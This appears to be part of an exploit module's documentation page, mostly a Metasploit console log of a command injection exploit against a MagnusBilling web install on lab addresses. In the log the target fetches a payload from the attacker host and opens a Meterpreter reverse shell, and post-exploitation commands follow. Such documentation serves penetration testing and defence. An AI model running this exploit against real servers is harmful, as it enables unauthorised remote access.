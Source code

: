 ```shell
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 4 seconds.
[*] Elapsed time: 4.09 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/3X16QTzG27N
[*] Client 192.168.201.34 (Wget/1.21.3) requested /3X16QTzG27N
[*] Sending payload to 192.168.201.34 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.34
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.34:55224) at 2023-10-24 17:12:05 +0000
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.34
OS           : Debian 12.2 (Linux 6.1.0-13-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: asterisk
meterpreter > pwd
/var/www/html/mbilling/lib/icepay
meterpreter >
```

## Limitations
No limitations identified.
